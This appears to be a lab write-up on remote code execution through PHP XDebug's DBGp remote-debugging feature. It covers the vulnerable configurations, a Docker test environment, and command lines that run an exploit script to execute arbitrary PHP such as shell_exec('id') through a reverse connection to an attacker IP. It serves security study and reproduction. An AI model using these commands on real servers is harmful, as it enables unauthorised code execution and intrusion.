

PHP XDebug Remote Debugging Code Execution¶
XDebug is a PHP extension used for debugging PHP code. When remote debugging mode is enabled with appropriate settings, an attacker can execute arbitrary PHP code on the target server by exploiting the debug protocol (DBGp).
For XDebug version 2.x, the vulnerability occurs when the following configuration is enabled:
xdebug.remote_connect_back = 1
xdebug.remote_enable = 1
For XDebug version 3.x (which introduced breaking changes in configuration), the equivalent vulnerable configuration is:
xdebug.mode = debug
xdebug.discover_client_host = 1
xdebug.client_host = 1
When these configurations are enabled, XDebug will attempt to connect back to the attacker's IP through the DBGp protocol when a client visits the appropriate trigger URL. The DBGp protocol provides an eval function that can be used to execute arbitrary PHP code.
References:
Environment Setup¶
Execute the following command to build and start the vulnerable environment:
docker compose up -d
The environment includes two services:
- PHP 7.1 with XDebug 2.5.5: Accessible at
http://your-ip:8080/ - PHP 7.4 with XDebug 3.1.6: Accessible at
http://your-ip:8081/
After the environment is started, visit each URL to see a simple phpinfo page. You can verify that XDebug is enabled and configured for remote debugging in the PHP configuration section.
Vulnerability Reproduction¶
Since the vulnerability requires communication using the DBGp protocol with the target server, it cannot be reproduced using HTTP protocol alone.
A proof-of-concept exploit script exp.py is provided that can execute arbitrary PHP code on the target server. The script supports both XDebug 2.x (port 9000) and XDebug 3.x (port 9003):
# Requires Python 3 and the requests library
python3 exp.py -t http://[target-ip]:8080/index.php -c 'shell_exec("id");' --dbgp-ip [attacker-ip]
python3 exp.py -t http://[target-ip]:8081/index.php -c 'shell_exec("id");' --dbgp-ip [attacker-ip]
Successful exploitation will execute the command and return its output:

Important Notes¶
The exploitation process involves a reverse connection:
- The exploit script listens on port 9000 (XDebug 2.x) and port 9003 (XDebug 3.x), please make sure these ports are not blocked by the firewall
- You have to have a public IP address or be in the same network as the target
- If your public IP differs from your local machine, use the
--dbgp-ipparameter to specify the IP address that the target server can reach